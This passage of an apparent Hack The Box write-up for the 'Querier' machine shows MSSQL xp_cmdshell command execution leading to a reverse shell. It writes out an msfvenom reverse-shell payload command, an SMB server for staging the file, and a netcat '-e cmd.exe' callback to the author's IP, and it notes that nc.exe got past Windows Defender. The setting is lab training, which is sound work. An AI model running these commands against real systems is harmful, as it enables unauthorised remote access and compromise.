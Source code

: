 It worked! I have command execution.

![Pasted image 20230303120507](https://user-images.githubusercontent.com/71300144/222975238-8359e0c5-a363-432a-bc2f-89323809bcab.png)

There are some more resources that I came across while doing this box that helped me understand what i was doing at this point to get a reverse shell.

https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/

https://rioasmara.com/2020/01/31/mssql-rce-and-reverse-shell-xp_cmdshell-with-nishang/

At this point I wanted a reverse shell so I looked at the system info with `xp_cmdshell systeminfo`. This is an x64 based machine.

![Pasted image 20230303231207](https://user-images.githubusercontent.com/71300144/222975278-624cf043-8573-48c8-acd0-8ae5e4c448b9.png)

I created an msfvenom reverse sehll to call back to my system

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.7 LPORT=9001 -f exe> nem.exe`

![Pasted image 20230303231313](https://user-images.githubusercontent.com/71300144/222975289-89483be9-996e-47a8-9631-51ca1fa3990a.png)

Since smb was open I spun up an smb server and hosted a share where the msfvenom reverse shell was locted.

`python2 /opt/impacket-0.9.19/examples/smbserver.py NEM /home/albert/pnpt/wpe/hackthebox/Querier -smb2support`

![Pasted image 20230303235449](https://user-images.githubusercontent.com/71300144/222975351-6ba75dd0-729d-4e8b-8f10-e5a53ba74b06.png)

Since windowns understands UNC paths all I have to do is use the copy command to transfer the file. I am going to copy it to the temp forder.

`xp_cmdshell copy \\10.10.14.7\NEM\nem.exe C:\windows\temp`

This did not work. It looks like windows defender is on and is blocking this file from being downloaded because it recognizes it as a PUP (potentially unwanted program).

![Pasted image 20230303231445](https://user-images.githubusercontent.com/71300144/222975979-b7610960-0aae-4c28-bdc3-b80774ea3f97.png)

If you do not use the xp_cmdshell command for a while the sql service recognizes this and resets it to 0. So you have to go back and re-enable it.

I decided to just copy nc.exe to see if windows defender will flag it, but it got through no problem.

![Pasted image 20230303232829](https://user-images.githubusercontent.com/71300144/222976024-1ae8a8c8-db9e-4457-9a35-a5f1fcca6ab1.png)

Set up a netcat listener on port 9001 and execute the command

`xp_cmdshell C:\Windows\temp\nc.exe 10.10.14.7 9001 -e cmd.exe`

And a shell is born!

# Post Compromise Enumeration and Escalation

![Pasted image 20230303235349](https://user-images.githubusercontent.com/71300144/222976060-5f0d1d0c-f933-4217-8efa-c841cdae4167.png)
